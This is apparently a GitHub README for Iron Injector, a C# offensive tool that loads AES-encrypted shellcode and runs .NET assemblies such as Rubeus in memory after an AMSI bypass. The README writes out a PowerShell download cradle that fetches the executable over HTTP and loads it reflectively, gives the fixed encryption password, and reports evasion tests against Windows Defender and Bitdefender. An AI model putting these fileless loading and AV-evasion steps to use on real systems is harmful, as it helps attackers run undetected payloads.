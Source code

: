 # Iron Injector
Iron Injector is a c# program that allows the user to run a few modules from an interactive prompt. These include ShellLoader and ProgramLoader. ShellLoader serves to load AES encrypted shellcode, given the filename, url, and loader type. Programloader takes a url and program name and conducts a simple AMSI bypass to edit a registry value while the assembly is running and then repair it once the program loader module has been exited. While interacting with the assembly, users can send commands as they would normally do from the command line all while the assembly is in memory and has never touched disk.

![image](https://user-images.githubusercontent.com/15575425/158653309-61d17062-6b70-429e-b51c-527ca533f3bd.png)



## Usage & Command Info
The program comes with two main modules and a set of aux commands to be ran to help the user with input and navigation. 

### The help command
![image](https://user-images.githubusercontent.com/15575425/158652978-d4ff1f1a-6a73-4d3e-afd2-ea846275aa63.png)

### Loading Modules and execution
1. To load a module, just type out the name of the module. Ex: ShellLoader  
2. To see the Modules options, use the Options command.  
3. To set a modules option, use: Set optionName Value   
4. To execute the module, use run
![image](https://user-images.githubusercontent.com/15575425/158653827-46c72464-6336-44d0-b31b-0916156cd50b.png)

### AES encryption
At the moment, the shellcode loader only takes AES encrypted shellcode. See my ShellcodeEncryption project for code that works with this project to decrypt the shellcode. Either way, the shellcode encryption password that should be used is **!r0nInj3ct0r123!** 
https://github.com/Queen-City-Cyber/ShellcodeEncryption

### The Connect Assembly Command 
This command is used to connect to an already loaded assembly after using exit on the interactive prompt from when the assembly is loaded using program Loader. 
ex. ConnectAssembly name.exe
![image](https://user-images.githubusercontent.com/15575425/158664122-43ef2902-328e-4dd1-af1b-f0a1b11f7ecc.png)
This shows an already loaded rubeus.exe; then, using the exit command, I stopped interaction with it downloaded a new exe to interact with then used **connectassembly rubeus.exe** to restart the interaction with the assembly. 

### Loading Iron Injector in memeory
![image](https://user-images.githubusercontent.com/15575425/158663020-816a8615-8572-4c42-af76-59b3a1808ad6.png)
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Iron Injector.exe')"    
2. "$assem =[System.Reflection.Assembly]::Load($data)"    
3. "[Iron_Injector.Program]::Main()"    
** NOTE: the double quotes are just for formatting do not include when running command**    

### AV bypass?
I have found it works best with stageless shellcode and the program loader uses an amsi bypass to patch a small registry entry this has been caught on some runs and not on others. Like all AV bypasses the challenge and techniques are always updating and the program will be updated with new techniques in the future. 

All testing was done as of 3/15/2022 against windows defender and bitdefender AV with cloud protections
![image](https://user-images.githubusercontent.com/15575425/158664740-80d23cc9-cd55-4cfd-80dc-4f8434b18659.png)
![image](https://user-images.githubusercontent.com/15575425/158664809-80b0e359-2dc5-4fde-9fb9-a541ee1146fb.png)
![image](https://user-images.githubusercontent.com/15575425/158664826-e80a9f72-a344-4d13-8e03-eb6803467a3c.png)


## Features
- verification of user commands vs available commands  
- verification that option trying to be set is real  
- checks that all required options are set before running  
- execution of encrypted shellcode   
- execution of .net assemblies with the ability to restart interaction all in memory  
- can itself be loaded into memory  

## Compile Instructions 
- download and open in VS, at the top set mode to release and CPU to any or x64 then build. 

## Possible Future content
- pe loader to load things like mimikatz  
- more shellcode loading methods  
- custom aes encryption password setting   
- better methods of AV bypass for loading .net assemblies  

## Disclaimer
I am not responsible for actions taken by users of Iron Injector. Iron Injector was released solely for educational and ethical purposes.
